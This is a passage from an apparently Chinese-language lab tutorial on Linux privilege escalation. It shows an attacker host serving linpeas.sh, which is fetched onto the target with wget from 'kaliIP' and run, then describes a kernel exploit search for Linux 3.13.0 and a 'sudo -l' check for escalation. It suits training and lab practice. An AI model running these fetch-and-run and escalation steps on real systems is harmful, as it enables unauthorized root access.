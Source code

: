 ## 方法二：自动化枚举提权
我们将自动化枚举的脚本放到/var/www/html目录下
![在这里插入图片描述](https://img-blog.csdnimg.cn/a0eb017947cf4a809e12c6847a0e0c2d.png)
开启apache服务
```
service apache2 start
```
回到靶机，移动到tmp目录下，下载此脚本
```
cd /tmp
wget http://kaliIP/linpeas.sh
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/3ccbd66418f54ee5b958b740504c7c32.png)
赋予脚本执行权限后执行
```
chmod +x linpeas.sh
./linpeas.sh
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/55ff7d4bda0442faaa4e5cf23f223b60.png)
在这里可以看到机子内核存在漏洞
![在这里插入图片描述](https://img-blog.csdnimg.cn/be8f97489d5245b9a5ed1426686d0e95.png)
我们上google，搜索关键词如下：
```
Linux 3.13.0 exploit
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/8232a06f52d64b70a556dd35d90afc73.png)
点开第一个，可以看到漏洞的详细信息
![在这里插入图片描述](https://img-blog.csdnimg.cn/2604219f4124438d9a741752f5e25d19.png)
下载exp
![在这里插入图片描述](https://img-blog.csdnimg.cn/9fa5c359763a4e039521500644c49bff.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/3ded67972b36458c9b4e29a15ea7f81a.png)
然后将此文件放到kali的/var/www/html目录下，然后操作和第一步一模一样
下载，编译，赋予权限，执行，提权成功
![在这里插入图片描述](https://img-blog.csdnimg.cn/ffb0ea5f2c82410d86b330e8df3c8143.png)
## 总结
内核提权，通过搜索自己的内核版本，然后在网上搜索对应版本的漏洞来提权
# sudo提权
sudo 命令可以以root 权限运行程序
任何用户都可以使用该命令检查与 root 权限相关的当前情况：
```
sudo -l
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/51c46c74bb3b4d59a2aed28edd85bbe7.png)
这里可以看到，我们可以使用 sudo运行find，less和nano命令
此网站是我提权常用的网站，可以以各种方法提权
